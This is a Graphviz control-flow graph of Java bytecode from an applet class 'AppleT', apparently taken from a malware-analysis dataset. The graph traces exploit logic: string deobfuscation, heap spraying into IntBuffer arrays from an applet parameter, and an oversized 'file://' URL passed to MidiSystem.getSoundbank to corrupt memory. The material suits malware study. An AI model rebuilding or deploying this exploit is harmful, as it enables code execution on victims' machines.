 digraph "" {
    "r0 := @this: AppleT"
    "push \"950559505595055950\""
    "r0 := @this: AppleT"->"push \"950559505595055950\"";
    "push \"5\""
    "push \"950559505595055950\""->"push \"5\"";
    "push \"\""
    "push \"5\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r1";
    "push 47"
    "store.r r1"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <AppleT: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <AppleT: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <AppleT: java.lang.String repeat(char,int)>"->"pop";
    "pop"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <AppleT: java.lang.String repeat(char,int)>";
    "store.r r22"
    "staticinvoke <AppleT: java.lang.String repeat(char,int)>"->"store.r r22";
    "new java.lang.StringBuilder"
    "store.r r22"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"f5i5l5e5:5/5/5\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"f5i5l5e5:5/5/5\"";
    "push \"f5i5l5e5:5/5/5\""->"push \"5\"";
    "push \"5\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r22"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r22";
    "load.r r22"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5Z5%5Z5%5Z5%5Z5%5Z5%5Z5%5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5Z5%5Z5%5Z5%5Z5%5Z5%5Z5%5\"";
    "push \"5Z5%5Z5%5Z5%5Z5%5Z5%5Z5%5\""->"push \"5\"";
    "push \"5\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r22";
    "load.r r0"
    "store.r r22"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"5s5c5\""
    "load.r r0"->"push \"5s5c5\"";
    "push \"5s5c5\""->"push \"5\"";
    "push \"5\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <AppleT: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <AppleT: java.lang.String getParameter(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <AppleT: java.lang.String getParameter(java.lang.String)>"->"load.r r1";
    "virtualinvoke <AppleT: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "load.r r1"->"virtualinvoke <AppleT: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "fieldput <AppleT: java.nio.IntBuffer[] mem>"
    "virtualinvoke <AppleT: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <AppleT: java.nio.IntBuffer[] mem>";
    "new java.net.URL"
    "fieldput <AppleT: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r22";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r22"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "return"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"return";
}
